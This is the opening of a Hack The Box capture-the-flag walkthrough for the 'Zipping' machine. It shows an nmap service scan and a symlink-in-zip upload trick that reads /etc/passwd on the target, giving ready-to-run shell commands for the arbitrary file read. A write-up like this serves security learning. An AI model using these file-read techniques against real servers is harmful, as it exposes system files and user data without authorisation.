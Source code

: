 ```yaml
---
layout: post
title:  "Zipping Machine (Medium)"
categories: ["SQL Injection", "Path Traversal", "Reverse Engineering"]
---
```


# Hack The Box - Zipping Walkthrough

### Services Enumeration
The first step is to enumerate the services of the machine.

```
sudo nmap -sC -sV -p22,80 zipping.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-26 16:35 CET
Nmap scan report for zipping.htb (10.10.11.229)
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
|_  256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.51 seconds
```

We can see that there is only two services ssh and a web application. The web application provides various avenues for exploitation. The "Work for us" page allows only a .pdf file within a .zip file to be uploaded. Exploiting a symlink vulnerability, we can make the server expose sensitive data.

### Symlink Exploitation
- Create a symbolic link to a specific file (e.g., `/etc/passwd`):

```bash
ln -s ../../../../../../etc/passwd symindex.pdf
```

- Create a .zip file with the symlink inside:

```bash
zip --symlinks test.zip symindex.pdf
```

This vulnerability only grants the ability to read any file on the server, but it does not allow the execution of .php files or listing files under a directory.

### Initial Enumeration
Upload the .zip and go to the .pdf file, I recommend use Burp Suite to see the response of the server. The Developer Tools of browsers didn't work for me. Extracting the contents of `/etc/passwd` from the server reveals user information, i.e. user named "rektsu". 
